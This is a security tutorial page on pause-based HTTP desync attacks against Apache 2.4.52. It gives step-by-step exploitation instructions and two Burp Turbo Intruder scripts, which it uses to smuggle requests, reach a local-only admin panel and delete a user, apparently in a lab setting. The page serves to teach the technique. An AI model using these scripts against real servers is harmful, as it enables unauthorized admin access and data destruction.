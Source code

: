# Pause-based desync attacks

## Pause-Based Desync Vulnerabilities

In normal request-response workflow if server is never receive any data in given amount of time, it will usually treat it as complete and issues a response. This occurs usually when server is configured with a read timeout functionality. Vulnerablities arise when the timeout occurs but the connection is still alive.

## PSD on server-side

PSD techniques can be used to elicit CL.0 like behaviour. There are some pre-requisites for this.

* Front-end need to forward each byte to back-end without waiting to process full request
* Front-end cannot timeout before back-end timeout
* Back-end need to keep connection open after timeout

To exploit this vulnerability, follow these steps:

1. Send a request with a smuggled prefix in the body but pause before sending the body.
2. The back-end will wait for the body data as specified by the content-length header.
3. The back-end eventually times out.
4. The front-end continues forwarding the rest of the request, which is the body.
5. The back-end treats this as a fresh request since it already responded with a timeout earlier.

## POC using Burp - Turbo Intruder

Using Turbo Intruder we can effectively queue our requests and make it pause mid request and continue sending the rest of the payload.

{% hint style="info" %}
Apache 2.4.52 -> This version of apache is vulnerable to this kind of attacks. Example is referencing to this particular version
{% endhint %}

First discovery of and endpoint which server respond with a 302  redirect

<figure><img src="../../.gitbook/assets/image (28).png" alt=""><figcaption><p>Server level redirect </p></figcaption></figure>

Using burp intruder, we can make use of the below script to pause mid request at around 60 seconds to wait for the backend to timeout but still keeping the connection open

```python
// def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

def handleResponse(req, interesting):
    table.add(req)

```

Backend sends us two responses. The first is a normal request resulting in a 302 redirect. The second is our payload, which results in a 401 Unauthorized error because we are attempting to access the admin page which is only available to local user. We can confirm this is vulnerable to pause based desync.

<figure><img src="../../.gitbook/assets/image (30).png" alt=""><figcaption><p>One request resulted in 2 responses, take note of the connection ID which is the same!</p></figcaption></figure>

Setting our host header to local user enables us to view the admin dashboard giving us elevated privilege as an admin.&#x20;

<figure><img src="../../.gitbook/assets/image (17).png" alt=""><figcaption><p>Elevated Admin privilege</p></figcaption></figure>

Next, we craft our payload using burp intruder to exploit the privilege user delete function and successfully delete the user

```
def queueRequests(target, wordlists):
    engine = RequestEngine(endpoint=target.endpoint,
                           concurrentConnections=1,
                           requestsPerConnection=100,
                           pipeline=False
                           )

    engine.queue(target.req, pauseMarker=['Content-Length: 160\r\n\r\n'], pauseTime=61000)
    engine.queue(target.req)

    
def handleResponse(req, interesting):
    table.add(req)
```

<div align="center">

<figure><img src="../../.gitbook/assets/image (19).png" alt=""><figcaption></figcaption></figure>

</div>
